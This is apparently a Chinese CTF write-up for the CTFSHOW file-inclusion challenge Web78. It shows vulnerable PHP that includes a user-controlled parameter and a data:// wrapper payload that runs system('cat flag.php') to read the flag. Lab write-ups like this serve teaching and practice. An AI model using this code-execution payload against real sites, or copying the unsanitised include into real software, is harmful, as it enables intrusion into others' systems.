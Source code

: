 +++
date = '2024-12-22T00:27:55+08:00'
title = 'CTFSHOW-文件包含-Writeup'
categories = ["Writeup"]
tags = ["writeup", "ctf", "Web"]

+++

> 以PHP为例,常用的文件包含函数有以下四种include(),require(),include_once(),require_once()

#### Web78

php伪协议

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 10:52:43
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 10:54:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
}
```

payload:

> ?file=data://text/plain,<?php system("cat flag.php")?>

查看源代码，得到flag

